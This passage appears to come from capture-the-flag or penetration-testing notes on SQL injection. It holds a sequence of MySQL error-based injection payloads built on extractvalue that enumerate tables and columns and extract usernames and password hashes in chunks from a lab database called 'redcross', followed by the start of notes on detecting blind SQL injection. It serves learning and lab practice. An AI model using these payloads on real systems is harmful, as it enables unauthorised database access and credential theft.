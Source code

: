 		') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 1,1))) -- -

		THEN

		') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 2,1))) -- -

- Get infos from columns  
	https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html  

		') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 0,1))) -- -

		THEN

		') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "passwords" LIMIT 0,1))) -- -

- Get usernames  

		') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 0,1))) -- -

		THEN

		') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1))) -- -

		THEN

		') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 2,1))) -- -

- Get passwords  

	Pay attention to the xpath because it's limited to 32 characters so we have to do multiple queries to extract the entire hash/password.

		') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 0,1) FROM 1))) -- -

	Then we get the second part

		') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 0,1) FROM 32))) -- -

## BLIND SQL INJECTION
https://github.com/swisskyrepo/PayloadsAllTheThings  
https://portswigger.net/web-security/sql-injection/blind  
https://delayma.wordpress.com/2019/01/09/magical-image-gallery-1-3-hacker-101-ctf/  

- Detect a blind SQL Injection  

	- Identify the 'normal behavior' of the page by by feeding the input or the cookie with the attended string.
	- Inject some code and identify if the page respond differently.

		- From here, we can have two different behavior:

			- A conditional response:
				- It means that the page will render slightly differently. We should compare the page with the orginal one using `Vim` or looking at the page length.
